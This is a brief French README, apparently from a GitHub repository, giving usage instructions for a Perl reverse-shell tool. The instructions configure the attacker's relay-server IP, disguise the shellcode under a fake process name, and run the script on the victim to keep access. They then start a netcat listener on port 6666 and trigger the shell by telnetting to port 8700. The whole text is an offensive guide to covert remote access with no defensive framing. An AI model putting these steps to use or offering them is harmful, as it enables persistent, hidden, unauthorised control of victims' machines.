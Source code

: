 # Misc-Tools

1) Modifier la valeur des variables suivantes:
  - $publicip --> contient l'ip publique de l'attaquant, à savoir celle du serveur rebond.
  - $fakeprocess --> n'importe quel processus identifié sur la cible afin de camoufler le shellcode.
  - $reverse_shell_port (6666) --> le port cible sur lequel se connecter pour piloter le shell, l'ouvrir ou le fermer.
  - $port (8700) --> Le port de la machine victime, sur lequel se connecter pour lançer l'activation du shellcode via la commande "shell".
2) Le script ./ReverseShell.pl doit être exécuté sur le la cible afin de pouvoir maintenir l'accès sur la machine distante.
3) Exécuter le listener sur votre machine: 'nc -l -p 6666' pour écouter la future connexion de la machine cible.
4) Lancer la commande d'activation du revershell distant: 'telnet $ip_publique_machine $port' (à remplacer par le port défini dans le script --> 8700 dans notre cas).

Enjoy!
